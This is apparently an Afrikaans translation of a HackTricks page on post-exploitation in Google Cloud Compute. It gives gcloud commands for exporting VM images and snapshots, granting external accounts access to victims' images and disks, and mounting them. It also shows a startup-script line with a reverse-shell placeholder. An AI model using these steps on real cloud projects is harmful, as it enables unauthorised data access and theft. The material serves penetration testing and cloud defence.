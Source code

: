 # GCP - Berekening Na Exploitatie

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Berekening

Vir meer inligting oor Berekening en VPC (Netwerke) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Voer & Inspekteer Beelde plaaslik uit

Dit sal 'n aanvaller toelaat om **toegang te verkry tot die data wat binne reeds bestaande beelde** of **nuwe beelde van lopende VM's te skep** en hul data te benader sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer uit te voer en dit dan af te laai en plaaslik te koppel met die bevel:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voor die uitvoering van hierdie aksie mag die aanvaller bevoegdhede oor die stoorhouer nodig hê en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer te doen.\
Verder, vir hierdie aksie om te werk, benodig die codebuild SA en die compute SA bevoorregte regte.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Uitvoer & Inspekteer Snapskote & Skywe plaaslik

Dit is nie moontlik om snagskote en skywe direk uit te voer nie, maar dit is moontlik om **'n snagskoot in 'n skyf te omskep, 'n skyf in 'n beeld** en deur die **vorige afdeling** te volg, daardie beeld uit te voer om dit plaaslik te inspekteer

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekteer 'n Afbeelding deur 'n VM te skep

Met die doel om toegang te verkry tot die **data wat gestoor is in 'n afbeelding** of binne 'n **hardloopende VM** van waar 'n aanvaller **'n afbeelding geskep het,** is dit moontlik om 'n eksterne rekening toegang te gee oor die afbeelding:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en skep dan 'n nuwe VM daaruit:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Indien jy nie eksterne rekeningtoegang oor die prent kon gee nie, kon jy 'n VM in die slagoffers se projek lanceer en die metadata laat uitvoer om 'n omgekeerde dop te maak om toegang tot die prent te verkry deur die param by te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspekteer 'n Oorsig/Skyf deur dit aan 'n VM te koppel

Met die doel om toegang te verkry tot die **data wat gestoor is in 'n skyf of 'n oorsig, kan jy die oorsig omskep na 'n skyf, 'n skyf na 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** oor die skyf (as die beginpunt 'n oorsig is, gee toegang oor die oorsig of skep 'n skyf daarvan):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Heg die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monteer die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANS_NAAM] --zone [SONE]
```
2. **Identifiseer die Skyf**: Eenmaal binne die VM, identifiseer die nuwe skyf deur die lys van skyf toestelle te gee. Tipies kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Monteer die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n monteer punt:

```sh
sudo mkdir -p /mnt/disks/[MONT_DIR]
```
*   Monteer die skyf:

```sh
sudo mount -o discard,defaults /dev/[SKYF_TOESTEL] /mnt/disks/[MONT_DIR]
```

As jy **nie toegang kan gee aan 'n eksterne projek** tot die afskopie of skyf nie, mag jy dalk hierdie aksies **uitvoer binne 'n instansie in dieselfde projek as die afskopie/skyf**.
